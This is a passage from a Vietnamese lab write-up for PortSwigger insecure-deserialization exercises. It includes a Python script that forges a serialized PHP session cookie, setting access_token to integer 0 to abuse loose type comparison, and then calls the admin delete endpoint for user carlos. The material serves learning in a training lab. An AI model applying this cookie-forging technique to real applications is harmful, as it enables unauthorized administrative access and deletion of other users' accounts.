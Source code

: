 ```python=
response = requests.post(
    url + "/login",
    data = data_login,
)

# lấy data từ cookie và xử lí
data_cookies = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}'
encode_base64 = base64.b64encode(data_cookies.encode('utf-8')).decode('utf-8')
encode_url = quote(encode_base64)
solve = encode_url

cookies = {
    'session': solve,
}

# dùng cookie đã sử lý để xóa carlos
response = requests.get(
    url + '/admin/delete?username=carlos',
    cookies=cookies,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/ryBSThvYa.png)

delete success chỉ còn delete wiener

![image](https://hackmd.io/_uploads/rJFIpnvtp.png)

mục đích của chúng ta đã hoàn thành khi trang web chuyển hướng chúng ta đến xóa carlos và chúng ta cũng đã giải quyết được bài lab

![image](https://hackmd.io/_uploads/HJNWXnvt6.png)

lỗi của bài là không so sánh nghiệm ngặt kiểu dữ liệu trong PHP

## 3.Lab: Using application functionality to exploit insecure deserialization

link: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization

### Đề bài

![image](https://hackmd.io/_uploads/Hy8IEpDFT.png)

### Phân tích
